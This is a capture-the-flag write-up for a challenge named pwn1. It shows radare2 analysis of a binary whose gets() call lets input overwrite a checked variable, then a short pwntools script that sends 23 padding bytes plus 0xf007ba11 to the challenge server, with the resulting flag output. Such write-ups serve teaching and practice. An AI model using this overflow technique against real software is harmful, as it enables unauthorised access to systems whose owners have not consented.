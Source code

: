 # pwn1 #

This challenge did not give us any clue, this was the description of the challenge:

![description](imgs/description.png)

We downloaded the binary named pwn1.

```
sha256sum pwn1
d7649dfe173eedd569664d41a400082187a2d21287e65a8016d564c4f8c648fe  pwn1
```
## Running the binary ##
Running the binary revealed that there was some kind of check going on ...
```
./pwn1
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
foo
That is not the secret word!
```
## Binary analysis ##
We fired up our trusty radare2 to analyze the binary ...
```
r2 pwn1copy
[0x08048450]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
```
We listed the functions with the afl command and something poped out inmediatly:

![afl-functions](imgs/afl.png)

There was an intersting function called sym.print_flag (hopefully that would give us our flag),
after inspecting the execution flow we noticed that there was a comparison between an address in
memory and the constant 0xf007ba11.

![jne](imgs/jne.png)

We knew that our buffer input is stored in ebp-0x23 as shown in the instructions below:

```
0x08048611 8d45dd         lea eax, dword [local_23h]
0x08048614 50             push eax
0x08048615 e8b6fdffff     call sym.imp.gets;[gc]
```

To overwrite the address at ebp-0xc we needed 23 bytes (gets was not limiting our input length),
and after that we had to add the value 0xf007ba11. We used pwntools to generate a quick script
to connect to the challenge to get our flag.

```python
cat sc.py
from pwn import *

c = remote('pwn.ctf.tamu.edu', 4321)
print c.recvline()
print c.recvline()
print c.recvline()
string = '\x41' * 23 + '\x11\xba\x07\xf0'
print c.sendline(string)
print c.recvline()
print c.recvline()
```
## Getting the flag ##
After running our script, we were able to get the flag ...

```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4321: Done
This is a super secret program

Noone is allowed through except for those who know the secret!

What is my secret?

None
How did you figure out my secret?!

gigem{H0W_H4RD_1S_TH4T?}

[*] Closed connection to pwn.ctf.tamu.edu port 4321
```
